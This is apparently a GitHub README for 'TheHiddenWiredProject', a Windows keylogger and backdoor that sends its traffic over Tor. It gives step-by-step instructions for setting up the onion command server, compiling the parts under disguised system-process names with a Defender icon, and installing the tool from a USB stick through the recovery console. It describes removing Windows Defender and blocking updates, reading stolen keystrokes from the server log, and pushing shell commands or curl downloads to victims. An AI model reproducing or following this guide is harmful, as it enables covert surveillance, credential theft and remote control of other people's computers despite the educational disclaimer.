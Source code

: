 <pre>
THIS PROJECT WAS CREATED FOR EDUCATIONAL AND EXPERIMENTAL PURPOSES ONLY. DO NOT USE IT ON MACHINES THAT ARE NOT YOUR OWN OR THAT ARE NOT PART OF YOUR VIRTUAL LAB!
EVEN IF THE CHOSEN NAMES ARE ULTRA STEALTH, THAT DOES NOT MEAN IT SHOULD BE USED IMPROPERLY!
I take no responsibility for any direct, indirect, or collateral damage resulting from improper or unauthorized use of this tool. Use is entirely under the user's own responsibility.
  

--------------------------------------- TheHiddenWiredProject ---------------------------------------

What is TheHiddenWiredProject?
TheHiddenWiredProject (THWP) is a keylogger with an integrated backdoor designed to be ultra stealthy
because all traffic generated is routed through Tor!

Remove Defender?
Yes, TheHiddenWiredProject was programmed to remove Windows Defender, disable notifications,
and even block Windows updates! The cool part? It only removes the Defender engine, not the GUI,
so no one will suspect a thing!

Is it safe?
Yeah bro, it's 100% safe, you can modify the code however you want without issues, while Tor helps
you hide your server (used to listen to the keylogger and use the backdoor).

So I need to set up a server?
Yeah, it's necessary to have a high enough level of anonymity

Is it ready to use?
Absolutely not, you have to compile it yourself, it's super easy, keep reading and I'll explain

Do you recommend it?
Absolutely yes! This tool is extremely compact, yet at the same time ultra stealthy,
you'd never find a keylogger with a Tor-based backdoor on the internet!

------------ The Brains Behind THWP ------------
Isass.py ---> Tor Proxy
SecurityHealthSystray.bat ---> Starts proxy, Brain, and Tor
WMIHost.py ---> THWP (Brain)
wuasrv.exe ---> Tor.exe (Downloaded from the official site, but renamed)
wuasrvs.py ---> Delayed Tor launch to avoid errors
installer.bat ---> Installer from WindowsPE

----------------------------------------------------------------------------------------------------

Let's move on to the boring theory that's necessary to configure the server and compile THWP

Starting with the required tools...

A PC or VM with Linux (I recommend a Debian-based distro like Debian, Ubuntu, Mint, etc.)
A stable internet connection (at least 2Mbitps)

----------------------------------------------------------------------------------------------------
Create and configure the Tor server:

#To avoid issues, become root with "sudo su"

#install apache and tor
sudo apt install apache2 tor

#run at startup automatically
sudo systemctl enable apache2
sudo systemctl enable tor

#start the daemons
sudo systemctl start apache2
sudo systemctl start tor

#configure the apache server
cd /var/www/html
sudo rm **
sudo mkdir payloads_httpcmd
cd payloads_httpcmd
sudo nano default.txt (this is where the commands the target will execute every 60 seconds go)

#edit the torrc file
sudo nano /etc/tor/torrc

#Add the following information at the end of the file:

HiddenServiceDir /var/lib/tor/serverTHWP
HiddenServicePort 80 127.0.0.1:80

#The first string "HiddenServiceDir" specifies where tor will save the server config (DO NOT USE CUSTOM DIRECTORY TO AVOID ISSUES, LEAVE IT AS IS)
#The second string hosts on port 80

#Now you need to restart Tor to apply the changes
sudo systemctl restart tor

#If you have doubts go to: https://community.torproject.org/onion-services/setup/
#Or ask ChatGPT

#Now you need to see your tor domain, you can find it with:
cat /var/lib/tor/serverTHWP/hostname

#To avoid issues, become root with "sudo su"

----------------------------------------------------------------------------------------------------

Now you need to configure TheHiddenWiredProject so it routes traffic to your domain,
so edit the file Isass.py, find a variable called "TARGET_ONION" (you’ll find it at the beginning),
and put your domain there (the one ending in .onion that you found in the hostname file)

----------------------------------------------------------------------------------------------------

Now everything is ready! You can test the functionality on a Windows VM, if everything works you can compile everything!

To compile everything you need a Windows machine, we’ll use nuitka to turn our python files into executables.

1) Install Python on the Windows machine (Not from MStore but from the official site)
2) Now open the terminal and type: pip install nuitka (If pip is not found, restart Windows after installing Python)
3) Now type: nuitka --onefile --windows-disable-console file.py

#--onefile = single .exe file
#--windows-disable-console = no prompt when executed

4) Run nuitka for every .py file (Isass.py, WMIHost.py, wuasrvs.py)
5) After compiling all the .py files you need to compile SecurityHealthSystray.bat with Bat-To-Exe-Converter (Look it up online) NOTE: INSTALLER.BAT MUST REMAIN RAW, DO NOT COMPILE IT!
6) Add the defender icon to the .bat file inside the compiler to get an .exe with Defender icon
----------------------------------------------------------------------------------------------------

Now you’re almost done!
Copy the compiled project onto a USB drive, copy the file installer.bat to the main directory of the USB, delete the "WPE" folder (IT IS IMPORTANT)
and the result should be this:

E:\\Isass.exe
E:\\Installer.bat
E:\\SecurityHealthSystray.exe
E:\\WMIHost.exe
E:\\wuasrv.exe
E:\\wuasrvs.exe

If it doesn’t match, you messed something up.


How do I install it??
1) Boot Windows
2) Once you are at the lock screen, go to the shutdown menu, hold "SHIFT" while clicking "Restart"
3) You should see on screen "Please wait"
4) After the reboot go to: Troubleshoot > Advanced options > Command prompt
5) Now find the letter of the USB (varies from PC to PC), try from C to J (just type the letter followed by a colon, like "c:")
6) Once you find the USB, run installer.bat
7) The PC will reboot by itself and TheHiddenWiredProject will be installed!
8) Have fun!
----------------------------------------------------------------------------------------------------

How do I check the keys pressed?
Pressed keys are saved on the server at "/var/log/apache2/access.log" in base32 in 32-character stacks, you need to decode them from base32 to plaintext, just look online for "base32 to text", paste the request and you'll see the pressed keys.

Example:
root@debianVM:/var/log/apache2# cat access.log
127.0.0.1 - - "GET /UNIQUE_CODE_GENERATED/MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA" 404
127.0.0.1 - - "GET /UNIQUE_CODE_GENERATED/ORSXG5BBEE======" 404

We only consider the base32 part, so this: MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA and this: ORSXG5BBEE======
if we decode them we get:

stack1 "MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA" = ciaoo, questo é un 
stack2 "ORSXG5BBEE======" = test!!

----------------------------------------------------------------------------------------------------

To execute code on the machine via the backdoor, just edit the file: /var/www/html/payloads_httpcmd/default.txt
and write Windows shell code, and it will be executed with the privileges of the current user, we can also download files with curl and execute them.
But be careful, you have to make sure that the shell code is not executed in a loop, because otherwise you risk messing things up, so once you see
the request for the payload, remove the content of default.txt, otherwise the code will be executed every 60 seconds!

----------------------------------------------------------------------------------------------------

HAVE FUN IN AN ETHICAL AND HEALTHY WAY, WITHOUT CAUSING REAL DAMAGE TO PEOPLE, DATA, OR SYSTEMS THAT DO NOT BELONG TO YOU!

                                                             100% created with the mind of ElektroWindows :)
</pre>
